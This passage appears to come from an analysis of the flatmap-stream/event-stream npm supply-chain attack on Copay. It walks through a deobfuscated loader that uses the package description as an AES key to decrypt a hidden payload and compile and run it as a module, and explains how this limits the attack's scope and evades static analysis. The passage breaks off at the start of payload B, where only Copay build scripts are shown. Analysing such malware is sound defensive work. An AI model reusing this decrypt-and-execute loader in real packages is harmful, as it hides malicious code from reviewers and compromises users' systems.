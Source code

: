 Line 9 extracts the fourth and fifth string from the data file. Variable
`o` has been renamed to `desc` for readability:

``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\small"}
var desc = process.env.npm_package_description;
```

This line fetches the description of the package from the `node.JS`
environment. The `if` statement on line 10 ensures that the
description is not blank.

From line 11 up to line 15 we repeat the process of getting a line from
the auxiliary data file and converting it to string. We do that in order
to deobfuscate the rest of the function. Moreover, we rename variable
`u` to `decipher`, `a` to `text` and `f` to
`newModule`. By doing so, we get:

```javascript
var decipher = require("crypto").createDecipher("aes256", desc);
var text = decipher.update(testData[0], "hex", "utf8");
text += decipher.final("utf8");
var newModule = new module.constructor();
newModule.paths = module.paths;
newModule._compile(text, "");
newModule.exports(testData[1]);
```

These lines of code perform the following actions:

1.  First, using the package description fetched previously, it creates
    a `decipher` instance.

2.  Then, it uses the `decipher` instance to decrypt the first line
    (which consists of binary data) from the file.

3.  Last, a new module is created with the decrypted data from the file
    as it source, and the second line from the file is exported from
    that module.

Since the description of a specific npm package is used as the
decryption key, payloads B and C are decrypted correctly only when
`flatmap-stream` is part of the dependency tree through
`event-stream`. Hence, the scope of the attack is limited to
Copay.The encrypted code is also resistant to static analysis, avoiding
detection by such tools.

## Payload B 

```javascript
{
"build:ios-release": 
    "npm run env:prod 
        && ionic cordova build ios 
        --release
        --aot true 
        --environment prod 
        --output-hashing all 
        --sourcemaps false 
        --extract-css true 
        --named-chunks false 
        --build-optimizer true",
"build:android-release": 
    "npm run env:prod 
        && ionic cordova build android 
        --release --aot true 
        --environment prod 
        --output-hashing all 
        --sourcemaps false 
```